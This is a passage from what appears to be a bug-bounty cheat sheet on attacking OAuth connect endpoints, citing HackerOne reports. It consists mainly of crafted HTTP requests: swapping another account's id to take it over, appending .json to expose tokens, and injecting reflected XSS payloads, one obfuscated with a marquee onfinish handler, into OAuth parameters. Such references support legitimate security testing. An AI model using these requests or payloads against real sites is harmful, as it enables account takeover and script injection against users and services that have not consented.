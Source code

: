 ```http
POST /oauth/Connect HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: Number
firstname=I&lastname=am&image=URL&anti_csrf=CSRF
&id=Id-Of-Another-Account&access_token=******
```

{% embed url="https://medium.com/@logicbomb_1/bugbounty-user-account-takeover-i-just-need-your-email-id-to-login-into-your-shopping-portal-7fd4fdd6dd56" %}

### Add JSON OR XML Extension To OAuth Endpoint

> In OAuth Connect Request , Try To Add JSON OR XML Extension To OAuth Endpoint e.g. oauth/connect.json , Maybe Token Expose In Response !

```http
POST /oauth/Connect.json HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: Number
type=token&client_id=ID&anti-csrf=&redirect_uri=URL
```

{% embed url="https://hackerone.com/reports/850022" %}

### XSS in OAUTH Connect/Callback

```http
GET /oauth/Connect?)%7D(alert)(location);%7B%3C!--&state=\&redirect_uri=URL&scope=read&type=code&client_id=ID& HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Accept-Encoding: gzip, deflate
```

{% embed url="https://hackerone.com/reports/311639" %}

### Insert XSS Payloads To Cause Errors

> Try To Insert XSS Payloads e.g. XSS To Cause Errors

```http
GET /oauth/Connect?
 client_id=<marquee loop=1 width=0 onfinish=
 pr\u006fmpt(document.domain)></marquee> HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://me.com/path
Origin: https://www.company.com
```
